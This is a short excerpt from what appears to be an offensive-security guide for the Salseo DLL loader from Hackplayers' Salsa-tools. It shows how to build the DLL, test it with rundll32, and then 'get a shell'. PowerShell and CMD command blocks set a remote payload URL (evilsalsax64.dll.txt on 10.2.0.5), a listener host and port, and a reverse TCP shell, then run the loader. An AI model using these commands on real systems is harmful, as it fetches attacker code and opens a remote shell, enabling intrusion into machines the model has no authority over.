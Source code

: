 ![](https://github.com/Hackplayers/Salsa-tools/blob/master/images/imagen10.png)

To **build** the solution: Build --> Build Solution (Inside the Output console the path of the new DLL will appear)

### Test the generated Dll

Copy and paste the Dll where you want to test it.

Execute:

`rundll32.exe SalseoLoader.dll,main`

If not error appears, probably you have a functional dll!!

## Get a shell using the Dll

Don't forget to use a **HTTP server and set a nc listener**

### Powershell

```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```

### CMD

```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```

Documented by https://github.com/carlospolop-forks/
